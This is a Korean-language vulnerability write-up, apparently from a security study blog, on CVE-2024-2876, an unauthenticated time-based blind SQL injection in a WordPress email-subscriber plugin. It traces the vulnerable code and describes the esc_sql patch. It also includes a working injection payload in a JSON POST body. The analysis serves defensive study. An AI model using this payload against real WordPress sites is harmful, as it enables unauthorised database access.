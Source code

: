 ```yaml
---
title: "[CVE-2024-2876] 취약점 분석 보고서"
description: "Email Subscribers by Icegram Express에서 발생하는 Time Based Blind SQL Injection 취약점"
author: bde574786
date: 2025-01-14 17:35:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, Blind SQL Injection]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## **1. 취약점 개요**

**Email Subscribers by Icegram Express**는 WordPress용 플러그인으로, 웹사이트 소유자가 이메일 마케팅과 관련된 다양한 작업을 쉽게 수행할 수 있도록 도와주는 도구이다. 이 플러그인은 사용자 친화적인 인터페이스를 제공하며, 구독자 관리, 뉴스레터 작성 및 발송, 자동화된 이메일 캠페인 생성 등을 지원한다.
CVE=2024-2876은 해당 플러그인에서 발견된 SQL Injection 취약점으로 버전 5.7.14 이하에서 존재하며, 사용자 입력값에 대한 적절한 이스케이프 처리 부족과 SQL 쿼리의 불충분한 준비로 인해 발생한다.

## **2. 영향을 받는 버전**

- Email Subscribers by Icegram Express ≤ 5.7.14

## **3. 취약점 테스트**

UI 단에서 요청을 추적하기 어려워 curl 명령어로 raw 요청을 직접 전송하였다.

POST 요청으로 삽입하는 데이터는 아래와 같다.

```json
{
  "page": "es_subscribers",
  "is_ajax": 1,
  "action": "_sent",
  "advanced_filter": {
	"conditions": [
	  [
		{
		  "field": "status=99924)))union(select(sleep(30)))--+",
		  "operator": "==",
		  "value": "1111"
		}
	  ]
	]
  }
}
```

success가 false로 표시되었으나 이는 응답 구조가 정상적임을 의미한다. 또한, 페이로드는 내부적으로 처리되었으며 오류도 발생하지 않았다는 것을 알 수 있다. 

time 명령어로 요청 시간을 확인한 결과 sleep 함수로 시간을 늘릴수록 응답시간이 인위적으로 지연되었다.

![image.png](assets/posts/one-day/2025-01-14/image.png)

## **4. 취약점 상세 분석**

코드를 살펴보면 플러그인이 클래스 `maybe_apply_bulk_actions_on_all_contacts()`의 함수를 `Email_Subscribers_Admin` 관리자 init 후크에 추가한다는 것을 알 수 있다. 이 함수는 nonce 검증을 수행하지 않으므로 인증되지 않은 공격자가 호출할 수도 있다.

```php
// lite/admin/class-email-subscribers-admin.php

add_action( 'admin_init', array( $this, 'maybe_apply_bulk_actions_on_all_contacts' ) );
```

이후, 이 함수는 클래스를 사용하여 데이터베이스에서 구독자를 쿼리하게 된다.

```php
// lite/admin/class-email-subscribers-admin.php

public function maybe_apply_bulk_actions_on_all_contacts() {
	...
	$contacts_table = new ES_Contacts_Table();
	...
}
```

```php
// lite/includes/classes/class-es-contacts-table.php

public function get_subscribers( $per_page = 5, $page_number = 1, $do_count_only = false ) {
	...
	$advanced_filter = ig_es_get_request_data('advanced_filter');
	$advanced_filter = ( !empty($advanced_filter) ) ? $advanced_filter['conditions'] : '';
	...
	if ( !empty ( $advanced_filter ) ) {
		$query_obj  = new IG_ES_Subscribers_Query();
		$query_args = array(
					'select'    => array( 'subscribers.id' ),
					'conditions'=> $advanced_filter,
					'return_sql'=> true,
				);
	
				$condition = $query_obj->run($query_args);
	}
	...
}
```

`IG_ES_Subscribers_Query` 클래스의 `run` 함수 내부이다.  `get_subscribers` 함수에서의 advanced_filter의 값은 최종적으로 `IG_ES_Subscribers_Query::run` 함수의 `condition` 의 인자로 전달된다. 따라서, `advanced_filter` 의 `condition` 키를 조작하면 SQL Injection을 성공적으로 실행할 수 있게 된다.

```php
// lite/includes/classes/class-ig-es-subscriber-query.php

if ( ! empty( $this->args['conditions'] ) ) {
			foreach ( $this->args['conditions'] as $i => $and_conditions ) {

				$sub_cond = array();

				if ( ! empty( $and_conditions ) ) {
					foreach ( $and_conditions as $j => $condition ) {

						$field    = isset( $condition['field'] ) ? $condition['field'] : ( isset( $condition[0] ) ? $condition[0] : null );
						$operator = isset( $condition['operator'] ) ? $condition['operator'] : ( isset( $condition[1] ) ? $condition[1] : null );
						$value    = isset( $condition['value'] ) ? $condition['value'] : ( isset( $condition[2] ) ? $condition[2] : null );

```

페이로드가 성공적으로 주입되면 최종적으로는 아래와 같은 쿼리가 완성되며 기존 조건이 종료되고 sleep 구문이 실행된다.

```sql
SELECT subscribers.id FROM wp_ig_contacts AS subscribers LEFT JOIN wp_ig_lists_contacts AS lists_subscribers ON subscribers.id = lists_subscribers.contact_id WHERE 1=1 AND ( ( subscribers.status=99924)))union(select(sleep(5)))-- = '1111' ) )
```

## 5. 패치

[https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3114483%40slider-wd&old=3103665%40slider-wd&sfp_email=&sfph_mail=](https://plugins.trac.wordpress.org/changeset/3060251/email-subscribers/trunk/lite/includes/classes/class-ig-es-subscriber-query.php)

`$value` 가 SQL 쿼리에 삽입되기 전에, `esc_sql` 함수를 통해 이스케이프 처리를 하도록 변경되었다.

![image.png](assets/posts/one-day/2025-01-14/image%201.png)